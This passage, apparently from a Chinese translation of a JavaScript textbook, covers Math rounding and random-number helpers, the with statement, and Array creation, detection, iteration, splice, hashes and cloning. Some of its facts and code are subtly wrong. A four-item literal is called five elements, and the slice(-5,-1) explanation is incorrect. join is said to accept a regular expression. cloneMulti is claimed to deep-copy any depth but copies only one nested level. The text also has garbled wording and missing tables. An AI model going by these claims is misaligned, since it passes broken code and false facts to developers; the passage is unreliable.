    return radians * (180 / Math.PI);
}

// 将角度转换为弧度
Math.degToRad = function(degrees) {
    return degrees * (Math.PI / 180);
}
```

这还证明了扩展和构建 `Math` 对象是多么简单。

# 数字舍入

使用静态的 `Math.round()` 函数对数字进行舍入是很简单的。如果数字的小数部分（小数点后的数字）是 0.5 或更大，则数字舍入到下一个较大的整数。如果小于 0.5，则数字将舍入到下一个较小的整数：

```javascript
document.write( Math.round(1.5) ); // 2
document.write( Math.round(-1.5) ); // -1
document.write( Math.round(0.4) ); // 0
```

# 随机数

`Math` 对象另一个非常常用的方法是 `random()`，它（如名所示）给出 0（包含）到 1（不包含）之间的*伪随机*数。伪随机意味着该数字不是真正的随机，而是通过系统时钟种子来产生随机假象。从中获取随机数也非常容易：

```javascript
Math.random() // 在这种情况下为 0.2555363189658547
```

稍微困难的是获取落在特定范围内的随机数。（例如，从数组项或一年的月份中选择）。这是开发人员的常见任务，所以你可能考虑将此功能添加到 `Math` 对象本身中。你现在将尝试一下。

## 增强型随机函数

```javascript
// 将返回一个 min（包含）和 max（不包含）之间的数字
Math.randomFloat = function(min, max) {
    return Math.random() * (max - min) + min;
}
```

在这里我执行了上述操作，并加回范围内的最小值，以确保它恰好地位于提供的两个数字之间。注意，由于 `random()` 返回的是一个*包含* 0 但*不包含* 1 之间的值，该函数的结果也同样会在可能的数字范围内*包含* `min` 但*排除* `max`。如果你只需要一个整数，可以使用 `round()` 对结果进行处理，但由于大于 0.5 的小数会被四舍五入，这将无意中将你的可能数字范围增加 1，因此数字将包含最大整数。这还会导致选中最小整数的概率降低 50%。相反，你应该使用 `floor()` 来实现此点：

```javascript
// 返回一个在 min（包含）和 max（包含）之间的整数
// 注意，我们使用 floor() 而不是 round() 来纠正不均匀的数字分布
Math.randomInt = function(min, max) {
    return min + Math.floor(Math.random() * (max - min + 1));
}
```

现在你有了一个随机数函数，它可以安全地返回 `min` 和 `max` 范围内的整数。

# 简化重复的 Math 调用

在反复使用 `Math` 对象成员的代码块中，另一种相当常用的技术是使用第 4 节描述的 `with { }` 语句来简化对 `Math` 的调用。这种方法可以扩展作用链，将 `Math` 对象包含在作用域链中以检查函数是否存在。如果你考虑一个包含多个 `Math` 用的典型距离计算如下所示

```javascript
// 正常的距离计算
function distance(x1, y1, x2, y2) {
    return Math.sqrt(Math.pow(y2 - y1, 2) + Math.pow(x2 - x1, 2));
}
```

该函数使用平方和平方根计算两点之间的线性距离。你可以使用 `with` 来省略重复的 `Math` 调用

```javascript
// 使用 "with" 扩展作用域的简化版本
function distance2(x1, y1, x2, y2) {
    with (Math) {
        return sqrt(pow(y2 - y1, 2) + pow(x2 - x1, 2));
    }
}
```

你可以想象包含许多 `Math` 对象调用的大型代码块将从这种方法中受益更多。通过测试这些函数你可以看到它们在功能上是等价的

```javascript
// 测试我们的两个距离函数
document.write( distance(10, 15, 30, 66) + "<br />" ); // 54.78138369920935
document.write( distance2(10, 15, 30, 66) ); // 54.78138369920935
```

这使得代码更具可读性，在更复杂的情况下可能减少代码。然而，从代码执行的角度来看，这并不一定更快。通常情况下，使用 `with { }` 语句由于解释器需要执行更多的跟踪和作用域步遍历，其运行速度较慢。

## 总结

在本章中，你探索了核心数据类型 `boolean`、`number`（以及相应的全局对象）以及 `Math` 对象的特性。你涵盖了以下主题：

- `Boolean` 对象是全局的，所有的布尔值都继承该类的属性和方法。
- 你可以使用该对象作为函数在布尔值之间进行转换。
- `Boolean` 对象可以使用 `prototype` 属性进行扩展。你添加了一个示例功能，使用这种方法提供了异或功能。
- `Number` 对象适用于 JavaScript 中的所有数字。`Number` 原型不会立即继承 `Number` 对象的成员，但 JavaScript 在它们被赋值给变量时会在原始类型和对象之间来转换。
- 有多种方法可以使用 `toString()`、`toLocaleString()`、`toExponential()`、`toFixed()`、`toPrecision()`、`parseInt()`、`parseFloat()` 以及 `Number()` 方法本身将其他数据类型转换为数字。
- 全局属性 `Infinity` 属性由某些数值运算返回，并在 `Number` 对象上也表示为 `POSITIVE_INFINITY` 和 `NEGATIVE_INFINITY`。
- `Number.MAX_VALUE` 属性代表 JavaScript 中可以表示的最大数字，`Number.MIN_VALUE` 代表可以表示的最小数字（大于 0）。
- `Math` 对象本质上是一组静态常量和工具函数的集合，用于在程序中执行高级数学运算。
- 你可以使用 `Math` 对象上的 `round()` 对数字进行舍入。
- 你扩展了核心 `Math` 对象，以提供固定范围内的随机数。
- 你可以使用 `with` 语句简化对 `Math` 对象的重复调用，但这样做会有性能代价。

在第 9 章中，你将读到另外两个核心 JavaScript 对象：`Array`（用于表示集合）和 `Date`（用于处理计时和日期值）。

# Array 和 Date 对象

到目前，你已经涵盖了 JavaScript 中的所有的原始数据类型，包括字符串、布尔值、数字甚至 `null` 和 `undefined`。现在你将返回并深入剩余的两个引用类型：数组和日期。数组是较复杂的类型之一，它们允许你将有序和无序的值集合组合在一起，并提供了一些处理这些集合的有用工具。日期为本地化的日期和时间值提供了全功能的接口。它们共同完善了你对 JavaScript 核心数据类型的理解。

# Array 对象

自 JavaScript 的第一个版本以来，数组的行为发生了变化。今天，它们是用于存储和处理有序及无序值集合的全功能结构。它们可以用于存储原始类型和对象引用，可以调整大小和重新排序，并且就像你所想象的那样灵活（无疑比你习惯的要灵活得多）。JavaScript `Array` 对象有时被说更像是一种类数组结构而不是传统的数组。虽然它缺乏普通数组的一些性能优势，但它是一个极其强大的工具，你无疑会开始依赖它。本节涵盖了数组的内置功能，还涵盖了一些以轻量级、跨浏览器的方式从它们获取额外额外功能的技巧。

# Array 对象概览

数组是引用类型，由全局 `Array` 对象实现，也称为包装类（你现在可能对这个术语非常熟悉）。`Array` 类由以下成员组成：


这些特性适用于所有数组，无论它们是用字面量符号创建还是使用对象构造函数创建的。注意，并非所有功能在所有浏览器中可用。详细的兼容性信息请参见附录 B。`Array` 对象的早期版本（JavaScript 1.0）与今天的数组大不同。它们不是真正的数组，因为它们的行为更像带有少量额外属性的传统 JavaScript 对象。在 JavaScript 1.1 中，你得到了我们今天拥有的数组（在很大程度上如此）。`Array` 对象还有一个特点，即在不同浏览器之间的差异可能是最大的，并且在基于 Mozilla 的浏览器新版本中，通常被认为是一个比 JScript 功能全多的类型。

# 创建数组

创建数组有两种基本方法。由于你已经有了 `Array` 对象，你知道有一个构造函数。使用构造函数有三种方法：

```javascript
myArray = new Array();
myArray = new Array([size]);
myArray = new Array([element0[, element1[, ...[, elementN]]]]);
```

第一个简单地返回一个空的 `Array` 实例。第二个返回一个具有指定大小的数组，最后一个返回一个包含传递给构造函数的值的数组。这些值可以是任何类型，包括对象，并且每个项目甚至可以是不同的类型：

```javascript
// 创建一个空数组
var emptyArray = new Array();

// 创建一个包含 10 个元素的数组
var tenItemArray = new Array(10);

// 创建一个长度为 3 的月份数组
var monthArray = new Array("January", "February", "March");
```

`Arrays` 只能包含 4,294,967,295 个项目（在 Mozilla 中是），因此当使用一个数字来指定数组大同时，它不能大于这个值。此外，这种类型的数组定义仅适用于 `JavaScript` 1.3 及更高版本（Netscape 4+ 和 Internet Explorer 3+）。你也可以使用数组字面量符号在代码的任何地方创建数组。数组字面量是用圆方括号（`[]`）括起来并用逗号分隔的项目列表：

```javascript
// 创建一个包含 5 个元素的数组
var myArray = [12, true, "hello", new Date()];

// 包含多行代码的数组字面量
var multiLineArray = [
 "hello", "world",
 "yah", "I'm on multiple lines"
];
```

你也可以通过通过这种方式创建嵌套数组，甚至在内部嵌入更多的字面量：`myArrayWithNested = ["hello", [10, true, "world"], true];`。数组字面量和多类型数组是你在许多语言中都不见的两个特性，也是让 JavaScript 数组如此强大的几个原因之一。

# 索引数组

普通数组被认为是`索引的`（indexed），这意味着数组具有特定的顺序，可以通过引用其在数组中的位置来访问每个项目：

```javascript
// 演示索引数组
var myIndexedArray = ["apple", 12, true, "hello world"];

document.write( myIndexedArray[0] + "<br />");    // "apple"
document.write( myIndexedArray[1] + "<br />");    // "12"
document.write( myIndexedArray[2] + "<br />");    // "true"
document.write( myIndexedArray[3] + "<br />");    // "hello world"
```

你也可以通过引用它的索引来重写这些值之一：`myIndexedArray[2] = "I'm a string!"`。

```javascript
document.write( myIndexedArray[2] );  // "I'm a string!"
```

你还会注意到数组索引是`零开始的`（zero-based），这意味着第一个元素始终是零，而最后一个元素始终是数组长度减一。

#### 多维数组

JavaScript 中没有多维数组（或`交错数组`，Jagged Arrays）的正式结构，但由于多维数组实际上只是`数组的数组`（array of arrays），你只需创建一个元素为另一个数组的数组。你可以使用构造函数或字面量符号轻松地创建这些数组：

```javascript
// 数组中每个项目的格式为：0:姓名，1:年龄, 2:他们喜欢冰淇淋吗？
var people = [
  ["Peggy Sue", 25, true],
  ["Debbie Downer", 34, false],
  ["Johnny Appleseed", 51, true]
];
```

访问此数组中的项目就像使用方括号符号一样简单。例如，要访问 `people` 数组中第二个人的姓名字段，请引用 `people[1][0]`。写出关于此数组中人的一些信息：

```javascript
// 现在我们写出每个人的一些细节：
document.write("Name: " + people[0][0] + ", Age: " + people[0][1] + "<br />");
document.write("Name: " + people[1][0] + ", Age: " + people[1][1] + "<br />");
document.write("Name: " + people[2][0] + ", Age: " + people[2][1]);
```

此代码块的输出将是：

Name: Peggy Sue, Age: 25

Name: Debbie Downer, Age: 34

Name: Johnny Appleseed, Age: 51

# 检测数组

有时你想在像数组一样使用一个变量之前，检查它是否为数组。一个例子是你期望某个函数的参数是数组。这听起来像是一项简单的任务，对吧？不。由于某种奇怪的原因，“数组性”（array-ness）实际上是一件很难验证的事情。我很快会告诉你如何这样做，但首先知道*哪些*方法会失败以及为什么是值得的。

根据你目前对 JavaScript 的了解，你应该应该尝试的是 `typeof` 运算符，它本应该告诉你对象或原始类型的类型。遗憾的是，`typeof` 工作得并不好。当你对字符串使用 `typeof` 时，你得到 "string"；当你对数字使用它时，你得到 "number"；但当你对数组使用它时（无论如何创建的），你得到一个用处得多的东西：

```javascript
var myArrayFromConstructor = new Array("hello", "world");
var myArrayFromLiteral = ["hello", "world"];

document.write( typeof myArrayFromConstructor + "<br />");  // "object"
document.write( typeof myArrayFromLiteral + "<br />");    // "object"
```

很多事物可以是“对象”，所以你需要深入挖掘。检测某类型的另一种方法是查看该对象是否是另一个对象的`实例`（instance）。在第 4 章中讨论了一个名为 `instanceof` 的运算符，它正是此用。你可以使用 `instanceof` 来测试第一个操作数的对象链中的任何内容是否与第二个操作数（右侧的）相同。简单来说，“x 是 y 的实例吗？”：

```javascript
document.write( (myArrayFromConstructor instanceof Array) + "<br />");  // "true"
document.write( (myArrayFromLiteral instanceof Array) + "<br />"); // "true"
```

看起来很有希望，但再深入挖掘一下。有时使用的另一种方法是检查对象的`构造函数`（constructor）。虽然我还没有真正谈过构造函数，只需知道构造函数是为使用对象做准备的方法。当你创建任何数组时，数组会自动调用一个构造函数——所以按照你的逻辑推理，你应该能够测试构造函数以查看它是否与 `Array` 的构造函数相同，使用对象的 `constructor` 属性：

```javascript
document.write( (myArrayFromConstructor.constructor == Array) + "<br />");  // "true"
document.write( (myArrayFromLiteral.constructor == Array) + "<br />");  // "true"
```

这似乎也有效。但当你查看存在于其他全局上下文中的数组时，它就失效了。这变得有点复杂了，但请耐心听。在第 6 章中，我提到了*全局上下文*（global context），它是所有全局对象都存在的地方。你创建的所有变量都是这些对象的实例。每个浏览器窗口，包括每个 IFRAME，都有自己的全局上下文。虽然现在 IFRAME 不像以前那样使用了，但仍有很多应用程序使用嵌入框架——这是一种完全有效且可以接受的做法。困难之处在于，当你使用 `instanceof` 和 `constructor` 比较来测试子上下文中的对象是否为数组时，它会失败：

```html
<html>
<head></head>
<body>
    <iframe id="myFrame" src="javascript:'<html><html></html></html>'"></iframe><br />
    <script>
        var frameObj = window.frames[window.frames.length-1];
        // 让我们在 iframe 中创建一个像它自然状态下存在的数组
        frameObj.myArray = new window.frames[window.frames.length-1].Array();
        var iframeArray = frameObj.myArray;
        // 现在我们对我们创建的数组再次尝试旧的测试。
        document.write( (iframeArray.constructor == Array) + "<br />"); // "false"
        document.write( (iframeArray instanceof Array) + "<br />"); // "false"
    </script>
</body>
</html>
```

如果你仔细考虑，这是很有道理的。`IFRAME` 内部的数组仍然是一个数组，但它并不是顶层全局上下文中同一个 `Array` 对象的实例。事实证明，这实际上是处理对象检测的开发者经常抱怨的问题之一。所以，那种方法行不通——但实际上还有其他方法可以测试一个对象是否为数组。一种流行的方法是使用“鸭子类型（duck typing）”。鸭子类型的概念源于那句陈旧的老话：“如果它走像鸭子，叫起来也像鸭子，那么它可能是一只鸭子。”当应用于数组时，如果一个对象的`行为`像数组，你就可以推断它是一个数组。你可以通过寻找对象上本应只存在数组中的成员来测试这一点。其中一个成员可能是 `join()` 方法（我稍后会详细介绍），它通常只存在于数组。从原则上说，如果该对象拥有 `join()` 方法，你就`知道`它是一个数组：

```javascript
document.write( ('join' in iframeArray) + "<br />");  // "true"
```

这适用于任何数组，无论它处于何种上下文中。然而，这种方法的缺点是，无法无法保证如果你出于某种原因自己添加了该方法，或者你正在使用的框架添加了它，其他类型的对象也不会拥有该方法。事实上，它甚至不需要是一个完整的函数。它可以仅仅是对象的一个属性：

```javascript
// 为什么这种方法不起
var myObj = { join: true };

document.write( ('join' in myObj) + "<br />");  // "true"
```

此时，你可能想知道是否存在一种可以可靠检测数组的方法。幸运的是，答案是肯定的。它被称为 `Miller 设备（Miller Device）`，并以推广该技术的 Google 的 Mark Miller 命名。它本质上涉及调用对象上下文的 `toString()` 方法并检查结果：

```javascript
function isArray(obj) {
    return Object.prototype.toString.apply(obj) === '[object Array]';
}
```

遗憾的是，你不能将此方法放在任何对象的原型上，因为这将无法通过你在上面创建的跨框架测试。你可以将此函数放在你的工具类的某处，或者直接放在全局上下文中。用来自 IFRAME 的数组和我们的通用对象对其进行测试：

```javascript
document.write( isArray(iframeArray) + "<br />"); // "true"
document.write( isArray(myObj) );      // "false"
```

最后，你有了一个通过了我们所有边界情况的数组检测技术。如果需要，这种方法也可以适用于你的其他许多对象类型。

# 数组大小

如果你处理的是普通的旧索引数组，通过使用 `length` 属性很容易确定数组的尺寸或 `length`：

```javascript
var myArray = ["hello", "new", "world"];

document.write( myArray.length );      // 3
```

注意，这只适用于我一直在谈论的类索引数组。它不适用于关联数组（哈希表），我将在本章稍后的 `关联数组（Associative Arrays）` 部分中讨论它们。

# 遍历数组

通过 `for` 循环的帮助可以轻松地遍历数组：

```javascript
// 让我们创建一个用于测试的数组
var myNumArray = [1, 2, 3, 4, 5, 6, 7];

for (var i = 0; i < myNumArray.length; i++) {
    document.write( myNumArray[i] + ",");
}
// 1,2,3,4,5,6,7
```

在循环的每次迭代中，检查 `i` 是否仍然小于数组的 `length` 属性。这将确保你访问了从 0 到数组末尾（length - 1）的每个索引。从性能的角度来看，这并不是此操作最有效的方法。如果你在代码中进行了大量循环，你可能想对此循环进行一些调优。问题之一是，你每次迭代时都会检查数组的 `length` 属性。这实际上是一个非常昂贵的操作。由于你在这种情况下知道数组在循环过程中不会改变大小，你可以将其存储在变量中以提高速度：

```javascript
for (var i = 0, mylen = myNumArray.length; i < mylen; i++) {
    document.write( myNumArray[i] + ",");
}
// 1,2,3,4,5,6,7
```

现在你只在开始时检查一次 `length`，为每次循环节省了一些时间。当你跨多个浏览器进行测试时，也可以发现这一点是正确的，如图 9-1 所示。

**图 9-1**

一些开发者主张进一步使用所谓的“反向循环（reverse loop）”；然而，不同浏览器中的性能提升是不一致的，而且最多也只是微不足道的。从编码易用性和效率来看，之前显示的“缓存长度”方法是。关联数组或哈希表无法以这种方式遍历。此外，关联数组的 `length` 属性不会报告其包含的正确项目数量。在本节的后半部分，我将讨论如何使用 `for .. in` 循环遍历关联数组。

# 向数组添加元素

有几种方法可以向现有数组添加项目。假设你从一个 0 个元素的数组开始：

```javascript
var myArray = [];
```

数组索引从 0 开始，第一个位置是 0，第二个是 1，依此类推。此时，你的数组长度为 0 个元素，`length` 属性会告诉你这一点。如果你的数组有三个元素，长度将是 3，数组中下一个空位置的位置也是 3。你可以利用此功能向数组添加元素：

```javascript
myArray[myArray.length] = "Hello";

myArray[myArray.length] = "World";

document.write( myArray.length + "<br />"); // 2
```

现在你的数组看起来像 `["Hello", "World"]` 且长度为 2。你会发现以这种方式向数组添加元素不会触发任何类型的错误，而在其他语言中可能会触发。你甚至远超出范围的位置添加一个项目：

```javascript
myArray[99999] = "I'm way there!";

document.write( myArray.length + "<br />"); // 100000
```

尽管索引 3 到 99998 是空的，但新的长度是最后一个项目的索引加一。此外，除了这种向数组添加项目的间接方法外，`Array` 原型上还有几个方法可以用于此：


其中第一个 `push()` 允许你向数组末尾追加一个项目。`push()` 的语法为：

```javascript
myArray.push([item1, item2, ...]);
```

你可以通过这种方式向数组添加多个项目：

```javascript
myArray.push("Another Item", "yet another item", true, 213);

document.write( myArray.length + "<br />"); // 100004
```

另一个方法 `unshift()` 的作用基本上相反。它在数组的开头插入项目，并将其他项目向下移动位。`unshift()` 的语法为：

```javascript
myArray.unshift(element1, ..., elementN)
```

与 `push()` 类似，`unshift()` 实际上会修改你的数组。它返回数组的新长度。在示例中使用它：

```javascript
var myArray = ["hello", "new", "world"];

myArray.unshift("orange", "blue");

document.write( myArray.toString() );
// orange,blue,hello,new,world
```

在这里，orange 和 blue 被插入到 `myArray` 项目之前。注意 `unshift()` 仅在较新版本的 IE (5.5+) 中可用。附录 B 此处所有方法的详细兼容性信息。

# 合并数组

向数组添加元素的另一种方法是合并两个多个数组。你使用 `concat()` 函数来实现这一点。该语法为：

```javascript
myArray = myArray.concat(value1, value2, ..., valueN);
```

传递给 `concat()` 函数的每个值要么是数组，要么你想追加的具体值。仅仅调用 `concat()` 不改变任何内容——不是数组本身，也不是作为参数的项目。它通过创建一个全新的数组并将其作为结果返回来工作：

```javascript
// 首先创建两个数组
var myArray = ["hello", "world"];

var myOtherArray = ["book", "apple"];

// 现在我们将第二个数组合并到第一个数组
myArray = myArray.concat(myOtherArray);

// 现在让我们写出结果：
document.write( myArray.toString() + "<br />");
```

// hello,world,book,apple 第二个数组无缝地追加到第一个数组之后。你也可以对单个项目进行操作：`myArray = myArray.concat("blue", "yellow");`

```javascript
document.write( myArray.toString() );
```

// hello,world,book,apple,blue,yellow 使用 `concat()` 和 `push()` 向数组添加元素的一个有趣区别之一是性能上的巨大差异。在你可以想象的每一个浏览器中，`push()` 方法都比 `concat()` 快，如你在图 9-2 中所示。

图 9-2

事实上，这种差异是如此显著，以至于你应该尽可能避免在重复操作中使用 `concat()`。在 JavaScript 解释器内部，某些机制使得向数组简单地添加项目极其高效，而组合两个数组在完成之前需要涉及许多额外的操作和检查——难怪 `push()` 更快。

# 从数组中移除元素

与添加项目一样，移除项目也可以通过多种方式实现。如果你只是简单地从数组中删除最后一个项目，最简单的方法是更改长度，奇怪的是，长度是可写的：

```javascript
var myArray = ["hello", "new", "world"];

myArray.length -= 1;

document.write( myArray.toString() + "<br />"); // hello,new
```

将长度属性减 1 具有剥掉最后一个项目的效果。进一步，你可以通过将长度设置为零来擦除整个数组：

```javascript
myArray.length = 0;

document.write( myArray.toString() + "<br />"); // ""
```

可以使用多种方法来编辑和移除数组中的项目。它们是：


其中第一个 `pop()` 与我已经提到的另一个方法 `push()` 有关。它本质上移除数组中的最后一个元素并返回该元素。像 `push()` 一样，它也会修改你调用的数组：

```javascript
myArray = ["hello", "new", "world"];
myArray.pop(); // 返回 "world"

document.write( myArray.toString() + "<br />"); // "hello,new"
```

另一个方法 `shift()` 执行的操作与 `pop()` 类似，只是它是在数组的开头而不是末尾。它不接受任何参数：

```javascript
myArray = ["hello", "new", "world"];
myArray.shift(); // 返回 "hello"

document.write( myArray.toString() + "<br />"); // "new,world"
```

JavaScript 还有两个更强大的方法，你可以用更任意的方式切割和处理数组：`slice()` 和 `splice()`。其中第一个 `slice()` 具有以下通用语法：

```javascript
myArray.slice(begin[, end])
```

它提取数组的一个部分并将该部分作为新数组返回。它不会对你所调用的数组进行任何直接修改，而是返回一个包含你请求的更改的新数组。第一个参数 (begin) 是开始切取提取部分的从 0 开始的索引。第二个参数 (end) 是可选的，是停止切取的索引位置。如果其中任何一个数字为负数（例如 -2），它指的是相对于数组末尾的相对位置。如果省略第二个参数，它将从起始索引切到数组末尾。例如，`myArray.slice(1,5)` 返回 `myArray` 数组中从第二个位置到第六个位置的数组，而 `myArray.slice(-5,-1)` 返回从倒数第六个项目到倒数第二个项目的项目数组：

```javascript
// Array.slice 示例：
// myNumArray 将作为 slice() 和 splice() 的示例

var myNumArray = [1, 2, 3, 4, 5, 6, 7, 8, 9, 10];

document.write( myNumArray.slice(3, 6).toString() + "<br />"); // 4,5,6
document.write( myNumArray.slice(6).toString() + "<br />"); // 7,8,9,10
document.write( myNumArray.slice(-3).toString() + "<br />"); // 8,9,10
```

通过这种方式，`slice()` 与 String 对象上的对应函数非常相似。我提到的另一个方法 `splice()` 也是如此。该函数的语法也应该是熟悉的了：

```javascript
myArray.splice(index, howMany[, element1[, ..., elementN]]);
```


此函数更改你的数组内容，添加新元素并移除旧元素。与 `slice()` 不同，此函数会修改你所调用的数组。第一个参数 `index` 表示开始的起始，但我们不能像在 `slice()` 中那样使用负数来表示相对位置。第二个参数 `howMany` 指要移除的元素数量，而不是停止切取的索引位置。剩余参数 `element1` 等只是要插入到被移除项目位置的新元素。这之间不必是 1:1 的关系。你可以插入比移除的更多或更少的元素。注意 `splice()` 总是返回你移除的元素：

```javascript
// 重置我们的数组
myNumArray = [1,2,3,4,5,6,7,8,9,10];

// 现在让我们只从中间移除一些（从位置 2 到 5）
myNumArray.splice(2,3);

// 看看结果
document.write( myNumArray.toString() + "<br />"); // 1,2,7,8,9,10

// 再次这样做插入一些
myNumArray.splice(2,0,"hello","world");

// 写出结果
document.write( myNumArray.toString() + "<br />"); // 1,2,hello,world,7,8,9,10
```

这种函数在各种浏览器中基本相同，但旧版本的 JavaScript 没有（Pre-1.3）。

# 关联数组（哈希）

显而易见的是，数组都是对象。由于这种情况，它们拥有对象拥有的功能，其中之一就是添加扩展属性。我将在第 10 章中详细讨论扩展属性。这意味着你可以随地向对象添加新属性。考虑以下示例：

```javascript
// 演示向数组添加扩展属性
var myArray = [];
myArray.name = "My Array";
```

现在你的数组有一个新属性 `name`。你可以使用点表示法 (`myArray.name`) 读取和写入它，但你也可以通过传递字符串作为属性名来访问属性：

```javascript
document.write( myArray["name"] + "<br />"); // My Array
```

内置属性也是如此，例如 `length` (`myArray["length"]`) 以及该对象上的任何函数。这导致了关联数组（或哈希）的使用，这是一个非常强大的功能。关联数组是将键与值关联的结构。在 JavaScript 的情况下，可以使用字符串作为键，值可以是任何类型。使用括号法，你也可以访问数组的索引元素：

```javascript
var myIndexedArray = ["hello", "new", "world"];
document.write( myIndexedArray["0"] + "<br />"); // hello
document.write( myIndexedArray["2"] + "<br />"); // world
```

然而，如果你随后对关联数组使用 `Array` 对象的 `length` 属性，你无法获得正确的元素数量：

```javascript
var myArray = [];
myArray["apple"] = "Hello";
myArray["tree"] = "World";
document.write( myArray.length ); // 0
```

使用此 `Array` 对象功能的另一个缺点是无法为它指定数组字面量。虽然你可以轻松地使用括号法表示索引数组（`[23,45,"hello",true]`），但关联数组没有等效的括号法。第三个缺点是对于 `Array.prototype` 的扩展。遍历关联数组你使用 `for .. in` 迭代器，但如果你扩展了数组对象并添加了自己的方法，这将返回一些异常结果：

```javascript
// 首先让我们扩展我们的数组对象一个新方法
Array.prototype.sayHi = function() {return "hi"};

// 现在让我们遍历我们的键值对
for (key in myArray) {
    document.write("key: " + key + " = " + myArray[key] + "<br />");
}
```

我们的循环输出将是：

```text
key: apple = Hello
key: tree = World
key: sayHi = function () { return "hi"; }
```

你的原型扩展现在与你的键值对混杂在一起了。如果你不需要对集合进行迭代，这没关系；但如果你需要该怎么办？

通常推荐的解决方案是**不要使用数组作为哈希表（hashes）**。相反，使用 `Object` 对象来处理这些。许多像 *Prototype* 这样的 JavaScript 框架喜欢扩展数组，但它们扩展 `Object` 对象的情况要少得多。这还为你提供了一种方便的方法来为关联数组指定字面量格式：

```javascript
// 使用 Object 对象作为关联数组
var myHash = { 'name' : 'Alexei White', 'age' : 28 };
document.write( myHash["name"] + ", age: " + myHash["age"] );
// Alexei White, age: 28
```

现在，你拥有了使用 `Array` 作为哈希的所有功能（长度除外），并且额外不会受到 `Array` 对象上任何原型方法的干扰，且有一个方便的字面量格式。对象字面量格式也称为 *JavaScript 对象表示* (JSON)。我将在第 21 章中详细介绍 JSON。

## 用于缓存的哈希

除了哈希表存储表格数据具有明显优点外，它们还被用于处理器密集型应用程序，作为数据缓存的方法。例如，假设你有一个函数执行了许多复杂的 DOM 操作，且该操作对性能有很大影响。你可以使用关联数组来存储之前查询的结果，并在第二次调用它时快速返回结果：

```javascript
var hashTable = {};

function calculateSomethingComplicated(num) {
    var result = 0;
    // 检查缓存
    if (!hashTable[num]) {
        for (var i = 0; i < 10000; i++)
            result += Math.sin(i) + ",";
        // 将结果存入缓存
        hashTable[num] = result;
    }
    // 从缓存返回结果
    return hashTable[num];
}

// 第一次调用 23 时，它会经历计算结果的整个过程
var result = calculateSomethingComplicated(23);

// 第二次调用 23 时，它从缓存中检索结果
var result2 = calculateSomethingComplicated(23);
```

在前面的名为 `calculateSomethingComplicated()` 的函数中，你正在使用 `Math.sin()` 函数（该函数也很慢）对字符串执行一些非常慢、非常复杂的操作。在此之前，检查你的哈希表 (`hashTable`) 查看是否已经存在 `num` 的条目。函数第一次执行时，它将找不到任何内容并继续执行长时间的操作。然后它将结果放入你的哈希表中供以后使用。

当你使用相同的参数再次调用函数时，它*确实*在你的哈希表中找到了条目，而不是再次执行缓慢的操作，而是直接返回之前的结果。这是一个相当刻意的例子，但当你用它来简化复杂的 DOM 查询或 AJAX 查找时，可以获得真实的好处。

# 作为引用类型的数组

在第 3 章中，我讨论了*原始*和*引用*数据类型之间的区别。其中之一是，赋值给引用类型的变量仅仅*指向*数据所在的内存位置，而原始类型*就是*数据本身。这一特性的副作用之一是，当你像这样通过赋值将数组复制到另一个变量时：

```javascript
var myNewArray = myOldArray;
```

你仅仅复制了引用，而不是数据本身。这很重要，因为这意味着如果你回去修改了*原始*数组，它将影响到两者。我可以通过恰恰这样做很容易地演示这一点。让我们使用上一个例子中的数组（people）：

```javascript
var people = [
  ["Peggy Sue", 25, true],
  ["Debbie Downer", 34, false],
  ["Johnny Appleseed", 51, true]
];
```

现在将其赋值给一个新变量 (`newPeople`)，并通过将其写入页面来确认它的其中一个条目：

```javascript
var newPeople = people;
// 让我们确认 NEW 数组中第二个名字的值
document.write("Person #2 name: " + newPeople[1][0] + "<br />"); // "Debbie Downer"
```

名字（"Debbie Downer"）是从 `people` 数组导入的。好了，现在让我们修改原始数组：

```javascript
// 修改原始数组
people[1][0] = "Alexei White";
```

测试*新*数组的相同值。

```javascript
// 让我们再次检查 NEW 数组中的第二个名字
document.write("Person #2 name, again: " + newPeople[1][0]); // "Alexei White"
```

你看到输出（"Alexei White"）必须是从你对源数组 (`people`) 的修改带过来的。这证明了 `newPeople` 仅仅是 `people` 的引用。尽管如此，如果你真的想要原始数组的*副本*而不是引用，以便独立地修改其数据，该怎么办？通过迭代其值或使用返回副本的数组修改器之一，将数据克隆到新数组是一件简单的事。

## 复制索引数组

由于你不能简单地通过复制引用来“复制”数组，你需要制作数组中所有项的副本。你可以遍历数组中的每个项并对其进行复制，但直接使用 `concat()` 方法要快得多，因为它返回的是副本而不是引用：

```javascript
Array.prototype.clone = function() {
    return [].concat(this);
}
```

让我们用这个克隆一个数组并重复之前的实验：

```javascript
// 创建一个多维数组
var people = [
  ["Peggy Sue", 25, true],
  ["Debbie Downer", 34, false],
  ["Johnny Appleseed", 51, true]
];

var clone = people.clone();
people[0] = "something else";
document.write( clone[0].toString() + "<br />"); // Peggy Sue,25,true
```

你可以看到，当你修改原始数组时，你的克隆被保留了——但数组*内部*的数组呢？它们将*不会*被保留：

```javascript
people[1][0] = "Test";
document.write( clone[1][0] ); // Test
```

为什么呢？因为虽然你的数组被克隆了，但它内部的各个仍然指向它们所引用的东西（简单来说）。如果你想捕获多维数组，你需要扩展你的 `clone` 函数：

```javascript
Array.prototype.cloneMulti = function() {
    var myArr = [].concat(this);
    for (var i = 0, len = myArr.length; i < len; i++)
        if (Object.prototype.toString.apply(myArr[i]) === '[object Array]')
            myArr[i] = myArr[i].clone();
    return myArr;
}
```

这个版本在复制后遍历数组中的每个项，并复制那些数组中的项（如果它们确实是数组）。你可以看到你的值都被复制了，这对于任何深度的数组都是如此：

```javascript
var myMultiDimArray = [
  ["hell", "world"],
  ["something", "else"],
  [1,2,3,4]
];

var myArrayCopy = myMultiDimArray.cloneMulti();
myMultiDimArray[0][0] = "bla";
document.write( myArrayCopy[0][0] ); // hello
```

即使你修改了原始数组中的子值，你的副本也没有受影响。

# 数组与字符串

你可以使用 `String.split()` 和 `Array.join()` 在字符串和数组之间无缝切换。假设你有一个包含由逗号分隔列表的字符串，你想将该列表转换为数组。你可以使用我们在第 7 章介绍过的 `split()` 方法来做到。只需回顾一下，`split()` 的语法为：

```
myString.split([separator[, limit]])
```

如果你的字符串看起来像 "David,John,Mike,Chris"，你可以通过拆分逗号将其转换为数组：

```javascript
var myString = "David,John,Mike,Chris";
var myArray = myString.split(",");
```

反方向操作，你可以使用数组实例的 `join()` 方法将数组中的元素连接成字符串。其语法为：`myArray.join(separator)`。`separator` 参数是一个字符串或正则表达式，用于分隔数组中的每个元素。通过对上一个示例中的 `myArray` 使用该方法，你可以按以下方式将其回字符串：

```javascript
var anotherString = myArray.join(",");
document.write( anotherString + "<br />" ); // "David,John,Mike,Chris"
```

你也可以使用 `toString()` 方法非常快速地将数组转换为字符串，该方法会在数组的每个元素之间插入逗号并返回字符串：

```javascript
